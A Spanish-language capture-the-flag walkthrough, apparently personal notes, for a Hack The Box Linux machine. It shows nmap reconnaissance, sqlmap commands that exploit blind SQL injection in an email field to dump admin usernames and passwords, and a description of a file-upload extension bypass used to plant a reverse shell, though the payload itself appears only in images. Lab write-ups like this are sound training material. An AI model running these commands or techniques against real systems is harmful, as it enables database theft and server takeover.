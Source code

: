 #Easy #fuzzing #fuzzing #nmap #Linux 
### Ping
```python
ping -c 1 10.10.11.18
PING 10.10.11.18 (10.10.11.18) 56(84) bytes of data.
64 bytes from 10.10.11.18: icmp_seq=1 ttl=63 time=70.9 ms

--- 10.10.11.18 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 70.927/70.927/70.927/0.000 ms
```

### TTL 63=Linux

### nmap
```python
sudo nmap -p- --open -sC -sV --min-rate 3000 -Pn 10.10.11.18 -oN Scan
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-13 19:43 EDT
Nmap scan report for 10.10.11.18
Host is up (0.069s latency).
Not shown: 65527 closed tcp ports (reset), 6 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.51 seconds
```


### Enumeración del puerto 80 (http)

![[Pasted image 20240415164823.png]]

podemos registrarnos en la pagina web pero no tenemos mucha información
![[Pasted image 20240415165024.png]]

si intentamos cambiar la contraseña podemos notar que nos da como resultado una notificación donde podemos ver nuestro correo
![[Pasted image 20240415165125.png]]

### sqlmap
después de hacer un montón de pruebas hemos descubierto que el parámetro mail es vulnerable a sqli blind por lo que vamos a comprobarla con 
```python
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C username,password --dump
```

![[Pasted image 20240415193303.png]]

![[Pasted image 20240415201751.png]]
###### con este ataque podemos determinar que es una blind sqli por lo cual el ataque puede tardar bastante. 

### Blind SQLI

```python
sqlmap -r request.txt --level 5 --risk 3 -p email --batch
```
![[Pasted image 20240418105600.png]]

`obtenemos el nombre de la base de datos y el nombre de las tablas`
![[Pasted image 20240418125501.png]]

### sqlmap 
una ves obtenemos la información de la base de datos vamos a realizar la solicitud apuntando al username y password 
```python
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C username,password --dump --threads 10
```
![[Pasted image 20240418131443.png]]

![[Pasted image 20240418131505.png]]

### web
de esta manera logramos conseguir las credenciales que estaban en la base de datos vulnerando el parámetro mal para obtener acceso a la pagina web
`en el apartado de administrador podemos subir un archivo.jpg que vamos a utilizar para meter una reverse shell oculta`
![[Pasted image 20240603230506.png]]

`Burpsuite`
interceptamos y cambiamos la extensión del archivo para agregar .php de la manera que se muestra en la imagen
![[Pasted image 20240603230913.png]]

`a la derecha podemos ver que nos da un estatus 302 lo que significa que esta haciendo una redireccion. simplemente seguimos la redireccion y listo`
![[Pasted image 20240603231243.png]]

`haciendo Fuzzing podemos descubrir que existe el directorio /uploads/images/ y aqui dentro se encuentra nuestro archivo que al llamarlo nos entabla una reverse shell. para ello debemos estar a la escucha`
![[Pasted image 20240603231416.png]]

### rshell
aqui 
![[Pasted image 20240603231542.png]]